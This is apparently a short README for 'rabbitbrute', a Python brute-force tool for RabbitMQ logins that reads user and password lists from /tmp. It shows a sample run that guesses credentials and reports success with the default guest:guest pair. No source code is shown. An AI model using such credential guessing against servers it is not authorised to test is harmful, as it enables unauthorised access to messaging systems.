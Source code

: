 rabbitbrute
===========

Simple brute-force module for RabbitMQ servers. Currently takes user and password list from /tmp directory (see source).

Example:

'''
laptop:rabbitbrute myles$ python rabbitbrute.py

[-] Connection refused: test : password

[-] Connection refused: test : secret

[-] Connection refused: test : guest

[-] Connection refused: guest : password

[-] Connection refused: guest : secret

[+] Success. User: guest --- Password: guest

[-] Connection refused: admin : password

[-] Connection refused: admin : secret

[-] Connection refused: admin : guest

[-] Connection refused: myles : password

[-] Connection refused: myles : secret

[-] Connection refused: myles : guest

[-] Connection refused: user : password

[-] Connection refused: user : secret

[-] Connection refused: user : guest

[-] Connection refused: system : password

[-] Connection refused: system : secret

[-] Connection refused: system : guest

[+] Brute force finished

laptop:rabbitbrute myles$ 
'''
